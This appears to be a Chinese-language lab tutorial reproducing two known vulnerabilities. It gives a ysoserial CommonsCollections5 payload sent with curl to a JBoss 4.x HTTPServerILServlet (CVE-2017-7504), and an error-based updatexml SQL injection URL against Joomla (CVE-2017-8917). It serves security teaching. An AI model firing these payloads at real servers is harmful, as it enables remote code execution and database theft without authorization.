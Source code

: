 # CVE-2017-7504 Java Deserialization
JBoss 4.x JBossMQ JMS 反序列化漏洞

Red Hat JBoss Application Server 是⼀款基于JavaEE的开源应用服务器。JBoss AS 4.x及之前版本 中，JbossMQ实现过程的JMS over HTTP Invocation Layer的HTTPServerILServlet.java文件存在反序列化漏洞，远程攻击者可借助特制的序列化数据利用该漏洞执行任意代码。

1.该漏洞出现在 /jbossmq-httpil/HTTPServerILServlet 请求中，本次实验借助 ysoserial 的 CommonsCollections5 利用链来利用该漏洞。你可以从 [1] 下载 ysoserial-all.j
ar ，也可以直接使用仓库中的 ysoserial-all.jar 。此处需要大家有Java环境[2]。
```
   java -jar ysoserial-all.jar CommonsCollections5 "touch /tmp/success" > poc.ser
```
2.发送漏洞利用
我们将poc.ser文件内容作为POST Body发送到目标靶机
```
curl http://path/jbossmq-httpil/HTTPServerILServlet --data-binary @poc.ser
```
如果目标靶机出现/tmp/success已成功创建。

# CVE-2017-8917 SQL Injection
## Joomla CVE-2017-8917 SQL注⼊
Joomla! in the real (online) world Joomla! is used all over the world to power millions of websites of all shapes and sizes. Joomla! can be used for: 
• Corporate websites or portals, intranets and extranets 
• Small business websites 
• Online magazines, newspapers, and publications 
• E-commerce and online reservations 
• Government, non-profit and organisational websites 
• Community-based, school and church websites or portals 
• Personal or family homepages ...

1.漏洞点（这里的path为Joomla的网址）
```
http://path/index.php? option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml(0x23,co ncat(1,user()),1)
```
![[Pasted image 20240117152031.png]]此处简单解释，Mysql API updatexml 负责修改查询到的内容。updatexml 要求第二个参数是符合 xpath语法的字符串，如果不满足要求，则会报错，并且将查询结果放在报错信息。详情请参考 [3]。
最后有⼀个小作业，如果想看到当前mysql的使用版本，怎么做？
[1]https://github.com/frohoff/ysoserial/releases/latest/download/ysoserial-all.jar
[2]https://www.oracle.com/sg/java/technologies/downloads/
[3]https://xz.aliyun.com/t/253#toc-1